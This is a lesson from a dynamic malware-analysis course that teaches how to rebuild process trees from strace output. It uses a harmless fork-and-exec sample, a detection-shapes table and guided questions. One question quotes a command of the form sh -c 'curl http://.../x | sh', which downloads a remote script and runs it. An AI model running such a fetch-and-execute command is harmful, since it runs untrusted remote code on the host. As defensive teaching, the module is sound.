

# Module 3.2 — Process Trees & Syscall Behavior

> The process tree is the backbone of dynamic analysis. Read it first, because
> everything else — network, files, injection — hangs off the structure of what
> spawned what. This module teaches you to reconstruct and interpret that tree
> from raw syscalls.

- **Level:** 3 — Dynamic Analysis
- **Time:** ~60 minutes
- **Difficulty:** Beginner→Intermediate

---

## Objectives

By the end of this module you will be able to:

- [ ] Explain how `fork`/`clone`/`execve` build a process tree.
- [ ] Reconstruct a parent→child→exec chain from an `strace -f` log.
- [ ] Recognize common malicious shapes (droppers, LOLBins, injection).
- [ ] Tie each tree node to the syscall that created it.

## Prerequisites

- [Module 3.1 — first detonation](../01-detonate-first-detonation/). `strace`,
  `gcc`. **[SAFETY.md](../../SAFETY.md)** — this executes code.

---

## Theory

On Linux every new process comes from a small set of syscalls:

- **`fork()` / `clone()` / `clone3()`** — create a child process (a copy). glibc
  `fork()` is implemented via `clone`. The child gets a new PID; the kernel
  records its parent.
- **`execve()`** — replace the current process image with a *different program*.
  A dropper does `fork()` then `execve("payload")` in the child.

So a process tree is just: who `clone`d whom, and what each `execve`'d into.
Detonate runs `strace -f` (follow children) and reconstructs parent/child links
from the PIDs in `clone`/`clone3` (see `parse_strace` in
[`sandbox/linux/guest_agent.py`](../../../sandbox/linux/guest_agent.py)).

### Shapes worth recognizing

| Shape | Looks like | Often means |
|-------|-----------|-------------|
| Dropper → payload | A `fork`+`execve` into a freshly written file in `/tmp` | Staged execution |
| LOLBin abuse | A child that's `sh -c ...`, `powershell`, `curl`, `python` | Living off the land |
| Fan-out | One parent spawning many short-lived children | Scanning/spraying |
| Self-delete | Process `unlink`s its own path after launching a child | Anti-forensics |

---

## Lab



**Sample:** [`multistage.c`](multistage.c) — `stage0` forks a child that
`execve`s `/bin/echo` (standing in for a dropped payload).

### Task 1 — Build and trace

```bash
gcc -O2 -no-pie multistage.c -o multistage
strace -f -e trace=clone,clone3,execve,write ./multistage
```

### Task 2 — Read the tree out of the trace

Real (abridged) output:

```
execve("/tmp/multistage", ...) = 0          <- stage0 starts (pid 12425)
write(1, "stage0 pid=12425\n", 17)
clone(child_stack=NULL, flags=CLONE_CHILD_CLEARTID|...|SIGCHLD ...)   <- the fork
strace: Process 12426 attached                                       <- child pid
[pid 12426] execve("/bin/echo", ["echo", "stage1-payload-executed"], ...) = 0
[pid 12426] write(1, "stage1-payload-executed\n", 24)
write(1, "stage0 done\n", 12)
```

Reconstruct it:

```
stage0 (12425)  [execve /tmp/multistage]
└─ child (12426) [clone from 12425] → execve /bin/echo "stage1-payload-executed"
```

The **`clone`** created 12426; the **`execve`** in 12426 turned it into a
different program. That's the whole mechanism.

### Task 3 — Through Detonate

Submit `multistage` for dynamic analysis and open the **process tree** view.
Detonate shows the same parent→child relationship, derived from the same
`clone`/`execve` syscalls. Confirm the child's command line matches what you
read in the trace.

---

## Guided questions

1. Which syscall established the parent→child link, and where in the trace is
   the child's PID announced?
2. After the `clone`, the child immediately `execve`s. If this were malware,
   what does the `execve` target tell you that the `clone` alone doesn't?
3. You see a child process whose command is `sh -c "curl http://.../x | sh"`.
   Name two ATT&CK-relevant behaviors in that one line.
4. Why does Detonate need `strace -f` (follow) specifically? What would it miss
   without `-f`?
5. A sample forks a child and then `unlink`s its own executable path. What is it
   doing and why?

---

## Solution

<details>
<summary>Spoiler — open after attempting.</summary>

1. **`clone`** (glibc `fork` → `clone`) created the child. strace announces the
   new PID with `strace: Process 12426 attached` immediately after the `clone`.
2. The **`execve` target is the actual payload identity** — `clone` just makes a
   copy of the *parent*; `execve` is where the child becomes something new
   (here `/bin/echo`; in malware, the dropped second stage). The argv also
   reveals command-line behavior. Always read the `execve`, not just the fork.
3. `sh -c` = **Command and Scripting Interpreter: Unix Shell (T1059.004)**;
   `curl http://...` piped to `sh` = **Ingress Tool Transfer (T1105)** plus
   remote code execution. (You'll auto-map these in
   [Module 3.4](../04-mitre-attack/).)
4. Malware's interesting work happens in **child processes** (dropped payloads,
   spawned shells). Without `-f`, strace traces only the initial process and the
   children's syscalls vanish — you'd see the `clone` but not what the child
   *did*. Following children is mandatory for a real tree.
5. It's **self-deleting** for anti-forensics — removing the on-disk sample while
   the spawned child carries on, so responders find a running payload with no
   file to grab. The `unlink` of its own path is the tell.

</details>

---

## Going further

- Modify `multistage.c` to fork two children that exec different programs;
  re-trace and draw the tree.
- Read `parse_strace` in the guest agent and find exactly how it pairs a
  `clone`'s returned PID to a parent.
- Next: [Module 3.3 — Network behavior & C2](../03-network-and-c2/).
